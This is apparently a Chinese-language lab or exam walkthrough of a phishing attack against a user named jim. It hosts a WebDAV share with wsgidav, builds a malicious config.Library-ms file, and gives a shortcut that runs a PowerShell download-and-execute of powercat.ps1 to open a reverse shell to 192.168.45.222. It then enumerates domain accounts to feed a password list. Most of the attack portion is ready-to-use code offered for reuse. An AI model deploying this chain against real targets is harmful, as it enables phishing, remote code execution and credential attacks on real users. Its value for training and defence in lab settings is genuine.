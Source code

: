 这里按照wp是要发钓鱼邮件给jim，通过滥用windows库文件执行客户端攻击，但是我`config.Library-ms`创建了无法访问开启的web服务

kali开启webdav服务

```
安装wsgidav
 
pip3 install wsgidav

wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /tmp/kali/

```

创建一个恶意的可执行文件，文件名为**config.Library-ms**，这个文件会请求url中的文件，将文件下载到本地

<font color=red>使用时只需要修改url即可</font>

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.222</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

可以将恶意快捷方式或者后门木马放在web服务器上，然后运行上述的文件去访问，再引导受害者去访问我们的木马文件

创建文件内容为如下的快捷方式

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.222:8000/powercat.ps1');powercat -c 192.168.45.222 -p 4444 -e powershell"
```

把config.Library-ms文件通过邮件发给jim就好了

nc监听等待反弹shell即可

连接成功后执行`net user /domain`可以看到更多的用户名，添加到密码本中

```
Administrator            andrea                   anna
brad                     dan                      Guest
iis_service              internaladmin            jenny
jim                      krbtgt                   larry
maildmz                  michelle                 milana
mountuser
```

